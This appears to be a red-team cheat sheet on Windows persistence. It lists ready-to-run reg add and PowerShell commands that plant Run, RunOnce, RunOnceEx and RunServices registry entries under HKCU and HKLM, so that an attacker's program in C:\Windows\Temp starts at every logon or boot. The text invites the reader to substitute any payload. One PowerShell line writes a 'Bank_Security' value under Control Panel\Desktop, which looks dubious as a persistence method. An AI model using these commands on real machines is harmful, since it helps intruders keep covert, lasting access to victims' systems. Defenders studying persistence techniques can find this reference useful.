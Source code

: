 # Windows Persistence

### Registry Persistence&#x20;

* Just change the `example.exe or example.bat` to your executable or script or whatever you want to run
* Adversaries may achieve persistence by adding a program to a startup folder or referencing it with a Registry run key. Adding an entry to the "run keys" in the Registry or startup folder will cause the program referenced to be executed when a user logs in. These programs will be executed under the context of the user and will have the account's associated permissions level.

#### HKCU

* Run Key&#x20;

```
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /v 1 /t REG_SZ /d "C:\Windows\Temp\example.exe"
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce" /v 1 /t REG_SZ /d "C:\Windows\Temp\example.exe"
```

* Service start during boot keys

```
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServices" /v 1 /t REG_SZ /d "C:\Windows\Temp\example.exe"
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce" /v 1 /t REG_SZ /d "C:\Windows\Temp\example.bat"
New-ItemProperty -Path 'HKCU:\Control Panel\Desktop\' -Name 'Bank_Security' -Value 'C:\Windows\Temp\example.bat'
```

#### HKLM

* Admin privs are needed for these
* Run Key

```
reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run" /v 1 /t REG_SZ /d "C:\Windows\Temp\example.exe"
reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce" /v 1 /t REG_SZ /d "C:\Windows\Temp\example.exe"
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnceEx\0001" /v 1 /t REG_SZ /d "C:\Windows\Temp\example.bat"
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnceEx\0001\Depend" /v 1 /t REG_SZ /d "C:\Windows\Temp\example.bat"
```

* Service start during boot keys&#x20;

```
reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServices" /v 1 /t REG_SZ /d "C:\Windows\Temp\example.bat"
reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce" /v 1 /t REG_SZ /d "C:\Windows\Temp\example.bat"
```
